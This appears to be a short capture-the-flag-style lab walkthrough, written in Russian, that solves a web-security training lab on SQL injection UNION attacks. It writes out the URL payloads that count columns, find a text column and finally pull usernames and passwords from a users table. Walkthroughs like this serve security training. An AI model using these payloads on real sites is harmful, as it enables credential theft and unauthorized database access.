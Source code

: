 ## Lab: SQL injection UNION attack, retrieving multiple values in a single column
1) Переходим на сайт задания и заходим в раздел Pets
2) Убедимся, что запрос возвращает два столбца, отправив строку category=Pets'+UNION+SELECT+NULL,NULL--
3) Убедимся, что только один из  столбцов содержит текст, отправив category=Pets'+UNION+SELECT+NULL,'abc'--
4) Используем следующий запрос: category=Pets'+UNION+SELECT+NULL,username||password+FROM+users--

Готово!
